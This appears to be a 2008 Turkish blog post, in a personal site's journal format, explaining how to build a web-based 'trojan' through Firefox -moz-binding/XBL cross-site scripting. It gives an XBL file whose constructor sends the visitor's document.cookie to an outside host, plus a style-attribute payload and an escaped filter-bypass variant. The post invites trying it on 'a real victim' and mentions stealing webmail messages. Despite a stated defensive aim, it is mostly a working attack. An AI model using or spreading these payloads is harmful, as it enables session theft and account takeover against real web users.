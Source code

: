 ```yaml
---
title: Web tabanlı truva atı (trojan) nasıl yapılır?
desc:
image:
date: "2008-05-11T07:00:00.000Z"
path: "/journal/web-tabanli-truva-ati-trojan-nasil-yapilir"
---
```


XSS ve web guvenligi meraklilari icin birkac teknikten bahsetmeye karar verdim.Bunlardan ilki oldukca gecerli olan ve pek az bilinen, firefox'ta calisan moz-binding yontemi.Yaziyi "vuralim, kiralim" uslubuyla yazdim ancak amacim sadece guvenlik onlemleri icin kaynak olusturmak.

Gecen yil Hakan (Bilgin) cloudo icin, bense r(ainbow)92 icin kod renklendirme yapmaya calisiyorduk. Hakan o zamanlar hazirladigi bir ornekte, XBL/-moz-binding teknigini kullanarak uygulamaya CSS kodu icinden XML import ediyor, XML'in icinden de javascript calistiriyordu.Bu bana oldukca ilginc gelmis ve -moz-binding ile tanismami saglamisti.

Eger bu ilginc teknigi, Yahoo UI gelistiricisi Douglas Crockford'un JSON'u kesfetmesini saglayan script include yontemiyle birlestirirseniz (bu yontem hem data transferlerini hem de client'ta istediginiz manyakligi yapmanizi saglar), yapabilecekleriniz hayal gucunuz kadar sinirsizdir. Ornegin maillerine hotmail,gmail vb web uzerinden ulasan bir kullanicinin tum maillerini cekebilir veya habersizce istediginiz maili yazdirtip gondertebilirsiniz.

Her iki yontemin de nasil kullanildigini anlamak icin kullanicilarin cookie'lerini victim list'e kaydetmeyi amacladigimiz kucuk bir ornek yapalim, ornegi denemek icin basit bir uygulama taslagi hazirlayabilirsiniz veya gercek bir kurban secebilirsiniz..

Sectigimiz web uygulamasi kullanicilarin sadece `<strong>` vb masum gorunen html tag'lerine izin veriyor olsun.Eger bu uygulama attribute'leri kontrol etmiyorsa isimiz kolay, onload vb event'lerle direk javascript calistirabiliriz.Eger kontrol ediyorsa, style attribute'una izin verilip verilmediginden emin olun. WYSIWYG editorlerinden veri bekleyen uygulamalarin hepsinde izin verilir.

Amacimiz style attribute'u icinde -moz-binding kullanarak xbl belgesini cagirmak. Bundan evvel javascript calistiracagimiz XBL belgesini hazirlayip kurbanlarin erisebilecegi bir yere yukleyelim:

```
<?xml version="1.0"?>
<bindings xmlns="http://www.mozilla.org/xbl" xmlns:html="http://www.w3.org/1999/xhtml">

<binding id="xss">
<implementation>
<constructor>
document.body.appendChild(document.createElement("script")).setAttribute("src","http://victim.com/?append="+escape(document.cookie));
</constructor>
</implementation>
</binding>

</bindings>
```

```
style='color:red; -moz-binding:url("http://victim.com/xbl.xml#xss");'
```

Cok az bir ihtimalle kurbaniniz moz-binding yazilmasini veya cross domain veri cagrilmasini blocklamis olabilir. Bu durumda b planimiz [the-spanner.co.uk](http://thespanner.co.uk) adresinde yayinlanan bir snippet'tan geliyor:

```
/style=\-\mo\z-b\i\nd\in\g:\url(//victim.com\/xbl_log\.xml\#xss)
```

Bundan sonrasi javascript bilginize kalmis. Kullanicinin arayuzunde daha cesitli tuneller acabilir, arayuzu degistirebilir veya kullanici adina islemler yapabilirsiniz.
